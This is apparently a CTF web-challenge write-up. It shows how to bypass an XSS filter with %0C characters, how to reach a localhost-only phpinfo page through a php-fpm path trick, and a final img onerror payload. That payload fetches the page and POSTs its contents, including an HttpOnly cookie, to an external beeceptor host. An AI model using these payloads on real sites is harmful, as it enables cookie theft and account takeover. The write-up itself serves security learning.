 ## Description 
  Just to warm you up for the next Fight :"D
## Walkthrough:
  **the challenges was provided with a src code
  the src code is made of 4 main files 
  1- index.php 
  2- info.php
  3- bot.js
  4- nginx.conf**

  **Flag is in the bot.js cookie with a httponly attribute this mean that JS cannot access the cookie**

  **1-index.php**
  
  ![image](https://github.com/user-attachments/assets/7d144810-397a-4ae2-91f0-b63c47938092)

  **so it is clear that we can get xss from the name get parameter but how?**

  **The main problem is in the Enhanced_Trim function that replaces the defined char set with "" so how can we bypass it to make an alert?**

  **at first i looked for alternatives for the space and found that %0C can work so the payload to make a simple alert -> <img%0Csrc=x%0Conerror=alert``>**

  **but this doesn't have any value since we cannot use JS to steal the cookie because of the httponly attribute on the cookie**

  **the solution was in the info.php that views the phpinfo**

  ![image](https://github.com/user-attachments/assets/b0ad6b6d-cf28-4f41-9bf4-313659f4ac4c)

  **so how we can use phpinfo to get the bot cookie?**
  
  **when a user visits the phpinfo page it reflect its cookie in the response even the HttpOnly ones like this**

  ![phpinfo-dvwa-1](https://github.com/user-attachments/assets/fbce6706-e779-43e4-be72-60b4c27ef1cd)


  **so now we can make the bot visit the info.php page then take the response and send it to our server right? no, it will not work because of nginx.conf lets look at it**

  ![image](https://github.com/user-attachments/assets/e8283328-e2fa-4412-947c-aa0eddddba59)

  **so in the nginx.conf it says that the info.php is only accessible from the localhost (the bot doesnt see the localhost of the challange so it cannot access it)**

  **that solution was in the last part of the configuration that includes and runs any file endwith .php so we can it to access the info.php right?**

  **I found this on hacktricks that allowed me to bypass the validation and access the info.php (https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)**

  **so now we can access the info.php like this -> /info.php/index.php**

  ![image](https://github.com/user-attachments/assets/a822c94b-027c-498d-92de-f019cbc9e6e4)

  **so now we can make the bot visit the /info.php/index.php and get the response and send it to our server**

  ```
  payload ->
  <img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://qlashx.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'> 
  ```


  
  ![image](https://github.com/user-attachments/assets/943c34c6-11f1-4835-81dd-e08e9c665855)





`flag -> idek{Ghazy_N3gm_Elbalad} `

